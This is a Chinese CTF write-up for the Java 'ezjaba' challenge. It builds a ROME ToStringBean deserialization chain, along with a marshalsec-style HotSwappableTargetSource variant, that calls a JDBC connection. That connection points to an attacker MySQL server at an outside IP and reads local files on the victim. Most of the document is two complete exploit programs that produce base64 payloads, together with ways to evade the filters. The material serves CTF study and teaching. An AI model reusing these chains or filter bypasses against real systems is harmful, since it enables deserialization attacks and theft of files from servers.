





## 题目简析

首先看到`com.example.ezjaba.controller.IndexController.java`,题目给了一个反序列化入口



而在Database中存在一个`getConnection()`方法




结合`JdbcUtils`




这里的`autoDeserialize=true`和`allowLoadLocalInfile=true`可以让我们很容易联想到通过反序列化触发`getConnection()`方法，利用mysql客户端文件读取漏洞获得flag

那么是否存在反序列化利用链呢，我们在这里发现了rome依赖，他的`ToStringBean`类的`toString`方法可以调用指定类的getter方法。不过过滤了很多恶意类




可以看到我们熟知的`ObjectBean , EqualsBean ,BadAttributeValueExpException`链都被ban了，也就是说我们需要寻找一个新的利用链

最终可以发现

```
java.util.Hashtable#readObject
java.util.Hashtable#reconstitutionPut
java.lang.AbstractMap#equals
com.sun.org.apache.xpath.internal.objects.XString#equals
com.rometools.rome.feed.impl.ToStringBean#toString
```

和CC7有异曲同工之妙

因此最终思路很清晰了：`反序列化链->触发getconnection->mysql客户端文件读取`

关于过滤：`jdbc:mysql`可以用`urlencode`绕过，`autoDeserialize=true`和`allowLoadLocalInfile=true`用大写绕过。

写exp：

```java
package exp;

import com.example.ezjaba.Connection.Database;
import com.rometools.rome.feed.impl.ToStringBean;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;
import  com.sun.org.apache.xpath.internal.objects.XString;
import java.util.HashMap;
import java.util.Hashtable;


public class ezjaba {
         public static void  main   (String[] args) throws Exception {
          Database database=new Database();
          database.setDatabase("%6d%79%73%71%6c://1.117.171.248:9015/test?user=fileread_file:///&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=655360&allowUrlInLocalInfile=true#");
             
          ToStringBean toStringBean=new ToStringBean(Database.class,database);
          XString xString=new XString("snakin");

          HashMap map1 = new HashMap();
          HashMap map2 = new HashMap();
          map1.put("yy", xString);
          map1.put("zZ", toStringBean);
          map2.put("zZ", xString);
          map2.put("yy", toStringBean);
          Hashtable table = new Hashtable();
          table.put(map1, "1");
          table.put(map2, "2");


          ByteArrayOutputStream byteArrayOutputStream1=new ByteArrayOutputStream();
          ObjectOutputStream objectOutputStream1=new ObjectOutputStream(byteArrayOutputStream1);
          objectOutputStream1.writeUTF("axb");
          objectOutputStream1.writeInt(2022);

          objectOutputStream1.writeObject(table);
          System.out.println(Base64.getEncoder().encodeToString(byteArrayOutputStream1.toByteArray()));
         }

        }
```

本地测试成功读取文件：




当然还有师傅给出如下利用链：

```
java.util.HashMap#readObject
java.util.HashMap#putVal
org.springframework.aop.target.HotSwappableTargetSource#equals
com.sun.org.apache.xpath.internal.objects.XString#equals
com.rometools.rome.feed.impl.ToStringBean#toString
```

熟悉的师傅可能会发现这是marshalsec中的`SpringPartiallyComparableAdvisorHolder`利用链，我们可以根据此写一个exp

```java
package exp;

import com.example.ezjaba.Connection.Database;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.springframework.aop.target.HotSwappableTargetSource;

import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class ezjaba {
 public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
  try {
   Field field = clazz.getDeclaredField(fieldName);
   if ( field != null )
    field.setAccessible(true);
   else if ( clazz.getSuperclass() != null )
    field = getField(clazz.getSuperclass(), fieldName);

   return field;
  }
  catch ( NoSuchFieldException e ) {
   if ( !clazz.getSuperclass().equals(Object.class) ) {
    return getField(clazz.getSuperclass(), fieldName);
   }
   throw e;
  }
 }
 public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
  final Field field = getField(obj.getClass(), fieldName);
  field.set(obj, value);
 }
 public static void main(String[] args) {
  try {
   Database database=new Database();
   database.setDatabase("%6d%79%73%71%6c://1.117.171.248:9015/test?user=fileread_file:///&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=655360&allowUrlInLocalInfile=true#");

   ToStringBean toStringBean = new ToStringBean(Database.class, database);

   
   HotSwappableTargetSource v1 = new HotSwappableTargetSource(toStringBean);
   HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("snakin"));

   HashMap<Object, Object> s = new HashMap<>();
   setFieldValue(s, "size", 2);
   Class<?> nodeC;
   try {
    nodeC = Class.forName("java.util.HashMap$Node");
   }
   catch ( ClassNotFoundException e ) {
    nodeC = Class.forName("java.util.HashMap$Entry");
   }
   Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
   nodeCons.setAccessible(true);

   Object tbl = Array.newInstance(nodeC, 2);
   Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
   Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
   setFieldValue(s, "table", tbl);

   ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
   ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
   objectOutputStream.writeUTF("axb");
   objectOutputStream.writeInt(2022);
   objectOutputStream.writeObject(s);

   byte[] bytes = byteArrayOutputStream.toByteArray();
   String s1 = Base64.getEncoder().encodeToString(bytes);
   System.out.println(s1);
  } catch (Exception e) {
   e.printStackTrace();
  }
 }
}
```

在 marshalsec 封装对象时，使用了 HotSwappableTargetSource 封装类，其 equals 方法会调用其 target 的 equals 方法。


参考：

https://mp.weixin.qq.com/s/u7RuSmBHy76R7_PqL8WJww

https://www.anquanke.com/post/id/251220

https://paper.seebug.org/1131/

https://mp.weixin.qq.com/s/kAnKmePDAkarpoJwDNdOqQ